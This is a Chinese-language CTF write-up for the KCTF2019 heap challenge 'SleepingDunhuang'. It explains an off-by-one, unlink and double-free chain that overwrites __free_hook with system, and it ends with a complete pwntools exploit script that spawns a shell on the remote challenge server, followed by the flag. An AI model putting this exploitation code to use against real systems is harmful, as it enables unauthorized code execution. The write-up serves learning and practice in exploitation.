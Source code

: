 ```yaml
---
title: 沉睡的敦煌
categories:
- KCTF2019
---
```

# KCTF2019 SleepingDunhuang

## 前言

这题太坑了，最开始edit的次数限制是2，做出来之后远程一直不通，问了客服才知道临时换题了，目次2次有多解，事实证明2次的确多解了，嗨呀早点做就好了。

## 程序逻辑

程序有4个功能，但是使用起来有诸多限制。

![main](./1.jpg)

![menu](./2.jpg)

Malloc的地址限制在bss某个地址上的值[0,800]范围内，这里初始化成heap_base，有个gift可以泄露堆地址。啊对每次Malloc(0x28)但是读0x29，可以off-by-one，修改下一个chunk的prev_size和size的低字节。

![malloc](./3.jpg)

Free应该没什么毛病

![free](./4.jpg)

Edit只能有一次机会。

![edit](./5.jpg)

## 漏洞利用

看了下出题人的发帖，似乎之前普及过unlink的出题思路2333，首先要泄露出来libc，构造unsorted bin。使用off-by-one申请chunk[i]，然后修改chunk[i+1]的size为0x90并释放chunk[i+1]，最终free7个0x90的块，此后0x90再释放就会进unsorted bin。

之后最开始我构造overlap chunk然后double free到一个释放的unsorted bin上修改其prev_size和size，实际上不用这么麻烦(且之后会出问题)，可以先free一个中间块，再malloc它，在其中构造fake_chunk(大小为0x20)+0x20+'\x90'从而使其下一个chunk的prev_size为0x20，size为0x90，之前我们提到再释放0x90的块就会使其进入unsorted bin，现在释放这个chunk即可unlink。之后再add两次就可以得到重合堆块了，从而double free。

具体地，我们先对0x404178位置的块进行unlink，铺垫一下。

之后用double free分配到第一个堆块(这个堆地址存储在0x404060中)，对这个块再用相同的方法unlink，从而使得0x404060的值为0x404048，进而Malloc的限制变成了0x404048-0x404048+0x800，我们用Edit编辑0x404060-0x404088，伪造一个假堆块0x404060，0x404078填0x404070即可free0x404060这个块到tcache里，再malloc就可以绕过检查，编辑0x404070开始的0x28区域，去掉所有的限制，之后free_hook改成system，Free一个"/bin/sh\x00"的块即可执行system("/bin/sh\x00")

## exp.py
```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']
debug = 0
gadgets = [0x4f2c5,0x4f322,0x10a38c]

if debug:
    p = process('./pwn')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    libc_offset = 0x3ebc40
else:
    p = remote('152.136.18.34',10001)
    libc = ELF('./libc-2.27.so')
    libc_offset = 0x3ebc40


def add(index,content):
    p.recvuntil('4.show\n')
    p.sendline('1')
    p.recvuntil('index:')
    p.sendline(str(index))
    p.recvuntil('gift: ')
    gift = int(p.recvline().strip('\n'),16)
    log.info('gift value => ' + hex(gift))
    p.recvuntil('content:\n')
    p.send(content)
    return gift

def Malloc1(index,content):
    p.recvuntil('4.show\n')
    p.sendline('1')
    p.recvuntil('index:')
    p.sendline(str(index))
    p.recvuntil('content:\n')
    p.send(content)
    '''
    p.recvuntil('content:\n')
    p.send(content)
    '''


def delete(index):
    p.recvuntil('4.show\n')
    p.sendline('2')
    p.recvuntil('index:')
    p.sendline(str(index))

def edit(index,content):
    p.recvuntil('4.show\n')
    p.sendline('3')
    p.recvuntil('index:')
    p.sendline(str(index))
    p.recvuntil('content:\n')
    p.send(content)

def Show(index):
    p.recvuntil('4.show\n')
    p.sendline('4')
    p.recvuntil('index:')
    p.sendline(str(index))

def exp():
    ##0~13
    for i in range(0,14,2):
        add(i,'a'*0x10)
        add(i+1,'a'*0x10)
        delete(i)
        add(i,'a'*0x28+'\x91')
        delete(i+1)


    add(14,'0000')
    add(15,'1111')
    add(16,'2222')
    add(17,'3333') #1
    add(18,"4444") #2
    add(19,"5555")
    add(20,"6666")

    ##unlink
    delete(16)
    payload = p64(0)+p64(0x21)
    payload += p64(0x404178-0x18)+p64(0x404178-0x10)
    payload += p64(0x20) + '\x90'
    heap_ptr = add(31,payload)
    print hex(heap_ptr)
    heap_base = heap_ptr - 0x5a0
    delete(17)


    ##double free
    add(17,'\n')
    add(21,'\n')
    add(22,'\n') #22==18
    delete(19)
    delete(22)
    delete(18)

    add(18,p64(0)+p64(0x31)+p64(heap_base+0x260))
    add(22,'\n')



    ##unlink
    add(23,p64(0)+p64(0x21)+p64(0x404060-0x18)+p64(0x404060-0x10)+p64(0x20))
    delete(14)
    add(14,p64(0)*4+p64(0x300)+'\x90')
    delete(15)


    payload = p64(0)+p64(0x31)+p64(0)+p64(0x404170)
    edit(31,payload)


    delete(31)
    #get 0x404170 in chunks

    add(31,p64(0x404170)*3+p32(1)+p32(5))
    edit(23,'a'*0x18)

    Show(23)
    #leak libc
    p.recvuntil('a'*0x18)
    libc_base = u64(p.recvline().strip('\n').ljust(8,'\x00')) - 96 - libc_offset
    log.success('libc base => ' + hex(libc_base))
    #get shell

    free_hook = libc_base + libc.symbols['__free_hook']
    shell_addr = libc_base + libc.symbols['system']

    edit(30,p64(free_hook))
    edit(30,p64(shell_addr))
    #gdb.attach(p)
    edit(14,'/bin/sh\x00')
    delete(14)
    p.interactive()

exp()

#flag{d86d52b3-8794-4b81-babf-24a2ef30dc65}
```
